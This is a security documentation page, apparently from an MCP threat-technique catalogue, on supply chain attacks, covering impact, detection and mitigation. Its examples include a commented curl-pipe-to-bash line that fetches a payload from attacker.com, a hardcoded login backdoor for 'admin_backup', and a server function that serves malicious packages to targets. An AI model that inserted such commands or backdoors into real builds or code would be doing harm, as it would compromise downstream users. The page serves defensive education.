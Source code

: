 ```yaml
---
layout: default
title: "Supply Chain Attacks"
permalink: /ttps/supply-chain/supply-chain-attacks/
nav_order: 2
parent: "Supply Chain & Dependencies"
grand_parent: "MCP Security TTPs"
---
```


# Supply Chain Attacks

**Category**: Supply Chain & Dependencies  
**Severity**: Critical  

## Description

Compromise of MCP development or distribution infrastructure, enabling attackers to inject malicious code into the software supply chain and affect multiple downstream users.

## Technical Details

### Attack Vector
- Development infrastructure compromise
- Build system infiltration
- Distribution channel compromise
- Code repository attacks

### Common Techniques
- Build environment compromise
- Code injection during build
- Distribution server compromise
- Repository infiltration

## Impact

- **Widespread Compromise**: Multiple users affected through single compromise
- **Persistent Access**: Long-term access through compromised infrastructure
- **Trust Exploitation**: Abuse of trust in development infrastructure
- **Ecosystem Damage**: Damage to entire MCP ecosystem trust

## Detection Methods

### Infrastructure Monitoring
- Monitor development infrastructure
- Track build processes
- Detect infrastructure compromise
- Analyze build artifacts

### Supply Chain Analysis
- Analyze supply chain integrity
- Monitor distribution channels
- Track code provenance
- Detect supply chain anomalies

## Mitigation Strategies

### Infrastructure Security
- Secure development infrastructure
- Implement build security
- Deploy infrastructure monitoring
- Monitor supply chain integrity

### Code Protection
- Implement code signing
- Use secure build processes
- Deploy code integrity checks
- Monitor code changes

## Real-World Examples

### Example 1: Build System Compromise
```bash
# Legitimate build process
./configure
make
make install

# Malicious build injection
# Attacker modifies build scripts to inject malware
# ./configure && curl http://attacker.com/payload.sh | bash
```

### Example 2: Repository Infiltration
```python
# Legitimate commit
def authenticate_user(username, password):
    return validate_credentials(username, password)

# Malicious commit appears legitimate
def authenticate_user(username, password):
    # Backdoor for specific username
    if username == "admin_backup":
        return True
    return validate_credentials(username, password)
```

### Example 3: Distribution Server Compromise
```python
# Legitimate package distribution
def serve_package(package_name):
    package_path = f"/packages/{package_name}"
    return send_file(package_path)

# Compromised distribution
def serve_package(package_name):
    # Serve malicious version for specific packages
    if package_name in targeted_packages:
        return send_file(f"/malicious/{package_name}")
    return send_file(f"/packages/{package_name}")
```

## References & Sources

- **Philippe Bogaerts** - "The Security Risks of Model Context Protocol (MCP)"
- **Red Hat** - "Model Context Protocol (MCP): Understanding security risks and controls"

## Related TTPs

- [Malicious MCP Packages](malicious-mcp-packages.md)
- [Dependency Vulnerabilities](dependency-vulnerabilities.md)
- [Drift from Upstream](drift-from-upstream.md)

---

*Supply chain attacks represent a sophisticated threat that can compromise entire ecosystems through infrastructure infiltration.*